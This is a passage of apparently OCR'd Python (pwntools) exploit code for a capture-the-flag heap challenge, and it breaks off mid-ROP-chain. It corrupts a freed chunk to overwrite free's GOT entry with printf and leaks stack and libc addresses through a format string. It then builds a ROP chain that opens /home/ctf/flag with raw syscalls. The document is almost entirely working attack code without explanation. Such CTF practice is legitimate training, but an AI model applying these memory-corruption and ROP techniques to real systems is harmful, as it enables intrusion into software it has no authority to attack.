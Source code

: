 ```python
io = start()

def new(size):
	io.recvuntil('> ')
	io.sendline('1')
	io.recvuntil('page size:\n')
	io.sendline(str(size))

def edit(idx, data):
	io.recvuntil('> ')
	io.sendline('2')
	io.recvuntil('index:\n')
	io.sendline(str(idx))
	io.recvuntil('content:\n')
	io.send(data)

def delete(idx):
	io.recvuntil('> ')
	io.sendline('3')
	io.recvuntil('index:\n')
	io.sendline(str(idx))


pop_rdx_rsi = 0x00130889
pop_rsp = 0x0019a6c2
pop_rdi = 0x0016619e
pop_rax = 0x0010fedc
pop_r10 = 0x00130865
sys_ret = 0x0010fbc5


io.recvuntil('name size:\n')
size = 8
io.sendline(str(size))
io.recvuntil('name:\n')
io.send(p64(0x7f))
new(0x68)
edit(0, 'A'*0x68)
delete(0)
edit(0, p64(0x6020bd))
new(0x68)
new(0x68)
edit(1, b'%p.' + b'%p'*20 +p64(0x6161616161616161)*5 + p64(exe.got['free']))
edit(0, p64(exe.sym.printf + 6))
delete(1)
io.recvuntil('0x100400b0a')
stack = int(io.recvn(14), 0)
io.recvuntil('0x4010c0')
libc.address = int(io.recvn(14), 0) -(0x7fd6e70a8b97 - 0x7fd6e7087000)
log.info('stack {}'.format(hex(stack)))
log.info('Libc leak {}'.format(hex(libc.address)))
edit(1, b'%p.' + b'\x01'*0x38+b'/home/ctf/flag\x00\x00'+p64(0x6161616161616161)*1 +p64(stack+8))
rop = flat([
	libc.address +pop_rdx_rsi,
	0x0,
	0x602108,
	libc.address+pop_r10,
	0x0,
	libc.address+pop_rax,
	257,
	libc.address+sys_ret,
	libc.address+pop_rdi,
	0x6,
```